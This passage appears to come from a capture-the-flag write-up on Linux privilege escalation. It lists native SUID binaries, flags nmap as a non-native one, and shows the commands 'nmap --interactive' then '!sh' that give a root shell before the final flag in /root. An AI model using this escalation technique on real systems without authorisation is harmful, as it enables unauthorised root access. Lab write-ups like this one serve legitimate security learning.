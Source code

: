 When analysing these binaries, it’s good to have a list of native binaries. Here is a list:

<pre>ping
ping6
passwd
sudo
chfn
apring
gpasswd
chsh
chfn
mount
sudo
su
umount
mount
newgrp
pppd</pre>

We can identify NMAP as a non-native SUID. We need to investigate this further. I researched how to exploit NMAP SUID binary. This is the website I used:

[Pentest Lab](https://pentestlab.blog/2017/09/25/suid-executables/)

Firstly, let’s get an interactive NMAP shell with the following command:

<pre>nmap --interactive</pre>

And now we can run the next command for elevated privileges:

<pre>!sh</pre>

![sh](https://i.imgur.com/DZ7IBRi.png)

And we have root! Nice and simple SUID exploitation for elevating rights. The last flag will be in /root:

![root](https://imgur.com/cnUTcPr.png)
